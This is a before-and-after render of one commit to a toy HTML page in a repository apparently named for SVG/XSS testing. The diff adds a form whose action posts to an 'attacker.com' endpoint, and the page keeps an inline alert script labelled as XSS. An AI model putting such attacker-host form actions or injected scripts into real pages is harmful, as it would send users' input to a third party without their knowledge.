

Before and after one commit to Haithem-BEN/svgxss, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,12 +3,18 @@
 </head>
 <body>
 
-     <form>
-      <label for="fname">First name:</label><br>
-      <input type="text" id="fname" name="fname"><br>
-      <label for="lname">Last name:</label><br>
-      <input type="text" id="lname" name="lname">
-    </form> >
+   <form action="https://attacker.com/aaaaction_page.php">
+     <label for="fname">First name:</label><br>
+     <input type="text" id="fname" value=""><br><br>
+     <input type="submit" value="Submit">
+   </form>
+
+   <form action="/aaaaction">
+     <label for="fname">last name:</label><br>
+     <input type="text" id="fname" value=""><br><br>
+     <input type="submit" value="Submit">
+   </form>
+
    <script type="text/javascript">
       alert("ssssssss Updated XSS");
    </script>
```
